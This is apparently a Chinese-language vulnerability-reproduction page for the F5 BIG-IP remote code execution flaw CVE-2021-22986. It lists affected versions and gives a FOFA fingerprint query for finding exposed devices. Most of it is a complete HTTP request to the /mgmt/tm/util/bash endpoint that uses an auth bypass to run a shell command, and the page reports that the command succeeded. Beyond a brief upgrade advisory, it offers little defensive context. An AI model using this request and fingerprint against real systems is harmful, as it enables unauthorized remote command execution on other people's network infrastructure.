 # F5 BIG-IP 远程代码执行漏洞 CVE-2021-22986

## 漏洞描述

F5 BIG-IP 是美国 F5 公司的一款集成了网络流量管理、应用程序安全管理、负载均衡等功能的应用交付平台。



近日，F5发布了F5 BIG-IQ/F5 BIG-IP 代码执行，代码执行的风险声明，F5安全公告更新了BIG-IP，BIG-IQ中的多个严重漏洞。建议广大用户及时将f5 big-iq,f5 big-ip升级到最新版本，避免遭到攻击。

## 漏洞影响

<a-checkbox checked>F5 BIG-IP 16.x: 16.1.0.3</a-checkbox></br>

<a-checkbox checked>F5 BIG-IP 15.x: 15.1.0.4</a-checkbox></br>

<a-checkbox checked>F5 BIG-IP 14.x: 14.1.2.6</a-checkbox></br>

<a-checkbox checked>F5 BIG-IP 13.x: 13.1.3.4</a-checkbox></br>

<a-checkbox checked>F5 BIG-IP 12.x: 12.1.5.2</a-checkbox></br>

<a-checkbox checked>F5 BIG-IP 11.x: 11.6.5.2</a-checkbox></br>

## FOFA

<a-checkbox checked>icon_hash="-335242539"</a-checkbox></br>

## 漏洞复现

访问登录页面如下

![img](../../../.vuepress/public/img/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10-20220313153222032.png)



发送请求包

```plain
POST /mgmt/tm/util/bash HTTP/1.1
Host: xxx.xxx.xxx.xxx:8443
Connection: close
Content-Length: 41
Cache-Control: max-age=0
Authorization: Basic YWRtaW46QVNhc1M=
X-F5-Auth-Token: 
Upgrade-Insecure-Requests: 1
Content-Type: application/json

{"command":"run","utilCmdArgs":"-c id"}
```



![img](../../../.vuepress/public/img/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10-20220313153222086.png)

成功执行命令 id

